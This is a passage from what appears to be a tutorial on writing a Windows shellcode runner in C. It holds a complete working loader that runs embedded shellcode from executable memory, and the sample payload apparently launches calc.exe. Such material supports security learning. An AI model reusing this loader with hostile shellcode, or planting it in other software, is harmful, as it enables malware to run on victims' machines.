 At the top we'll initialize our shellcode variable **sc** as a character string. After we'll use `VirtualAlloc` to carve out our executable memory, the same amount of bytes as our shellcode. More info can on this function can be found in the [Microsoft Documentation](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc).

```c
void *exec = VirtualAlloc(0, sizeof sc, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
{: .nolineno }

This returns a pointer to the start address of this newly allocated memory space. Let's use the `memcpy` function to copy our shellcode to this memory address.

```c
memcpy(exec, sc, sizeof sc);
```
{: .nolineno }

Now that we have our shellcode in executable memory, we've just got to execute it. This is where it gets a bit tricky and we'll have to use a somewhat hacky way to get it started. The line we'll use is:

```c
((void(*)())exec)();
```
{: .nolineno }

Okay... So if you're not familiar with this line, this forces the program to point to the address of our shellcode as the next instruction. Casting exec to a function which takes no arguments and returns void, then calling said function will do just that. 

That's it! For now. This will execute whatever shellcode we use.

Here's `runner.c` put together:

```c
#include <windows.h>

int main(int argc, char **argv) {
    
    char sc[] = 
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
    "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
    "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
    "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
    "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
    "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
    "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
    "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
    "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
    "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
    "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
    "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
    "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
    "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
    "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
    "\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
    "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
    "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c"
    "\x63\x2e\x65\x78\x65\x00";

    void *exec = VirtualAlloc(0, sizeof sc, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
    memcpy(exec, sc, sizeof sc);
    
    ((void(*)())exec)();
}
```
{: file='runner.c'}
